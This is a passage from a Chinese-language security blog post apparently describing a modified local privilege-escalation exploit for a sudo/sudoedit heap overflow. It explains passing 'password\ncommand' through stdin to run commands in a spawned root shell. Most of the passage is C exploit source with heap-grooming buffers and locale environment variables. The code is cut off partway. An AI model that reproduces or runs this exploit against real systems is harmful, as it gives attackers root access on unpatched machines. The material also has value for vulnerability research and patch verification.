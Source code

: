 ```c
        return 0;
}
```


![2021-02-10-03-10-12](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/5cd0d7de66ef48c3cae7021b88576487.png)

测试结果正确：2！

stdin的值为：`test\r\n1111`，wc -l 命令读取是以`\n`为每一项分割的，因此返回的是2。


这个方案可以直接拿到Exploit中，将stdin覆盖，向管道写入`密码\n命令`，然后把命令传入即可。

为什么这里是`密码\n命令`呢？

是因为第一个`\n`是为了结束密码的传递，然后开始堆溢出，溢出完成后，后续的命令刚好会传入到Shellcode启动的`/bin/sh`中。

![2021-02-10-03-13-24](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/dd2237b99e5fb3010d0ac87636fba9d4.png)

修改后的Exploit：

```c
#include <unistd.h> // execve()
#include <string.h> // strcat()
#include <stdio.h>

int main(int argc, char * argv[]) {

    if(argc < 2){
        printf("Usage: %s <Command> \n",argv[0]);
        printf("[+]Refrence : @Qualys Research Team @Max Kamper \n");
        printf("[+]Modify by Rvn0xsy@ https://payloads.online\n");	
        return 0;
    }
    char * input_command = argv[1];
    int nSize = strlen(input_command)+6;
    
    char * command = malloc(nSize);
    memset(command,0x00,nSize);
    sprintf(command,"test\n\n%s\n",input_command);
    // 'buf' size determines size of overflowing chunk.
    // This will allocate an 0xf0-sized chunk before the target service_user struct.
    int i;
    char buf[0xf0] = {0};
    memset(buf, 'Y', 0xe0);
    strcat(buf, "\\");

    char* sudoedit_argv[] = {
        "sudoedit",
	    "-S",
        "-s",
        buf,
        NULL};

    // Use some LC_ vars for heap Feng-Shui.
    // This should allocate the target service_user struct in the path of the overflow.
    char messages[0xe0] = {"LC_MESSAGES=en_GB.UTF-8@"};
    memset(messages + strlen(messages), 'A', 0xb8);

    char telephone[0x50] = {"LC_TELEPHONE=C.UTF-8@"};
    memset(telephone + strlen(telephone), 'A', 0x28);

    char measurement[0x50] = {"LC_MEASUREMENT=C.UTF-8@"};
    memset(measurement + strlen(measurement), 'A', 0x28);

    // This environment variable will be copied onto the heap after the overflowing chunk.
```